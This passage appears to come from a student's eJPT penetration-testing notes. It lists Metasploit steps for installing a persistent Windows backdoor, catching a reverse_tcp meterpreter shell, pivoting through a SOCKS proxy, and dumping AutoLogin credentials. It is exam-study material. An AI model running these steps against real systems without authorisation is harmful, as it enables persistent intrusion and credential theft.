 #### Maintaining access using Metasploit (Windows)
Inside a meterpreter session:
  - `background`
  - `use exploit/windows/local/persistence_service`
  - `show options`
  - `set SESSION <session-id>`
  - `exploit`

Use the backdoor:
  - `background`
  - `sessions -K`
  - `use exploit/multi/handler`
  - `set PAYLOAD windows/meterpreter/reverse_tcp`
  - `set LHOST <your-ip>`
  - `set LPORT 4444`
  - `exploit`

Note: The `<session-id>` is the one you can read when you type `background`  
Note: We need to use the same information about the backdoor to receive a new meterpreter session on the multi-handler. We can't change Payload, IP or Ports details.

#### Pivoting using a SOCKS Proxy
You have access to a compromised host and only from there you can access another machine. That machine exposes a web server, in order to access it from your computer set up a SOCKS proxy.

Add the route to the unreachable network using autoroute or route.

```bash
msf > use auxiliary/server/socks_proxy
msf > set VERSION 4a
msf > set SRVPORT 9050
msf > run -j
```

```bash
root@INE:~# proxychains nmap ...
```

Then you can also setup firefox in order to send request using the SOCKS proxy v4 at `127.0.0.1:9050`.

#### Dump AutoLogin stored credentials
Inside a meterpreter session:
  - `migrate -N explorer.exe`
  - `background`
  - `use post/windows/gather/credentials/windows_autologin`
  - `set SESSION <session-id>`
  - `exploit`

----------

If you find an error, just [open an issue](https://github.com/edoardottt/eJPT-notes/issues).

Read also my [blog post](https://www.edoardoottavianelli.it/post/post7/post7.html).

**Don't** text/mail me looking for exam solutions.


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: May 30th 2023 (02:53 pm) 
Last Modified Date: May 30th 2023 (02:53 pm)

